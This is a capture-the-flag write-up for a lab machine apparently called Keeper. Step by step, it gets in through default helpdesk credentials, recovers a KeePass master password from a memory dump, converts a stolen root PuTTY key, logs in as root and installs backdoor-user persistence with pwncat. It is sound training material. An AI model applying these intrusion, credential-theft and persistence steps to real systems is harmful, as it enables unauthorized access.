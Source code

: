 we start the machine with the classic port scan:
	
	rustscan -a 10.10.11.227
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
so now that we know the open ports we can do a more accurate scan:
	
	nmap -sC -sV -p22,80 10.10.11.227
output:
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
	|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
so far nothing strange so let's enumerate the port 80:
	
![ip and port](./ip.png)
	
the site is telling us to visit this new page:
	
	To raise an IT support ticket, please visit tickets.keeper.htb/rt/
on this domain:
	
	tickets.keeper.htb
so we need to update our /etc/hosts file:
	
	echo '10.10.11.227	keeper.htb	tickets.keeper.htb' >> /etc/hosts
now we can visit the site and this appears:
	
![login page](./login.png)
	
this looks like an actual ticketing service for helpdesk.
so i tried to search it online and found this:
	
	https://bestpractical.com/request-tracker
so it is an actula software, so i searched default credentials or exploits;
i had like with the first guess in fact they are:
	
	username: root
	password: [REDACTED]
so we can now log in.
the site is pretty basic and i didn't find neither exploits or post-auth RCE;
so i searched in the account info for some stored creds or stuff like that and found this:
	
![credentials](./credentials.png)
	
now we can try and log in with the user that we see (i will use pwncat-cs for the SSH connection):
	
	python3 -m pwncat
and then inside pwncat interactive shell:
	
	connect ssh://lnorgaard:[REDACTED]@keeper.htb:22 
in fact we are in as the lnorgaard user!
	
	(remote) lnorgaard@keeper:/home/lnorgaard$
inside the home directory of the user we found a strange .zip file:
	
	-rw-r--r-- 1 root      root       87391651 Sep 23 19:02 RT30000.zip
when we unzip it inside we find:
	
	-rw-r----- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
	-rw-r----- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
i downloaded the .dmp file for passcracking as this article about KeePass password recovery says:
	
	https://github.com/CMEPW/keepass-dump-masterkey
i downloaded the file with scp (i could also use pwncat downlaod feature):
	
	scp lnorgaard@keeper.htb:/home/lnorgaard/KeePassDumpFull.dmp ./KeePassDumpFull.dmp
after the password prompt we can go on and try to crack the KeePass acrhive with the script inside
the github repo linked above (i only copy and saved the script to an exploit.py file):
	
	python3 exploit.py KeePassDumpFull.dmp
output:
	
	Possible password: ●,dgr●d med fl●de
	Possible password: ●ldgr●d med fl●de
	Possible password: ●`dgr●d med fl●de
	Possible password: ●-dgr●d med fl●de
	Possible password: ●'dgr●d med fl●de
	Possible password: ●]dgr●d med fl●de
	Possible password: ●Adgr●d med fl●de
	Possible password: ●Idgr●d med fl●de
	Possible password: ●:dgr●d med fl●de
	Possible password: ●=dgr●d med fl●de
	Possible password: ●_dgr●d med fl●de
	Possible password: ●cdgr●d med fl●de
	Possible password: ●Mdgr●d med fl●de
at first this ouput seamed meaningless but after some copy paste on google and CHAT-GPT i found out
(the comments on the webserver now makes sense) that
this is a nordic word for a cake or stuff like that; but we need to format it right:
	
	[REDACTED] med fløde
now we can open the .kdbx vault and see what's inside.
to do that we need to render the keepass file with its own programm:
	
	sudo apt install keepass2
now just type on the terminal:
	
	keepass2
and it will prompt the app where we can insert the file and the password we cracked
and we will see this:
	
![keepass app](./keepass.png)
	
now we have the ssh id_rsa of root user that i saved as '_key.root.ppk_';
but it's not like a regular id_rsa key, in fact it is a putty private key, so we need to convert it
to a rsa key in order to log with ssh client.
To do that i found this discussion online:
	
	https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux
in particular this comand is perfect for us! :
	
	puttygen id_dsa.ppk -O private-openssh -o id_dsa
so after installing puttygen with:	
	
	sudo apt install putty-tools
we can now run the command above with our saved key file:
	
	puttygen key.root.ppk -O private-openssh -o id_rsa
we now have a id_rsa file that we can use to log in as root:
	
	chmod 600 id_rsa
and then:
	
	ssh -i id_rsa root@keeper.htb
we are finally root and we can submit the root flag.
	
![root terminal](./root.png)
	
for test sake i runned the pwncat module to install persitence on the machine with just one command:
	
![persistence with pwncat](./persistence.png)
	
so now we can log in with ssh as Disturbante user and enter as root whenever we want:
	
	ssh Disturbante@keeper.htb	#input Disturbante ass password
and u will enter as root:
	
	Disturbante@keeper.htb's password: 
	Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
	
	Last login: Sat Sep 23 20:00:50 2023 from 10.10.14.238
	root@keeper:~# 

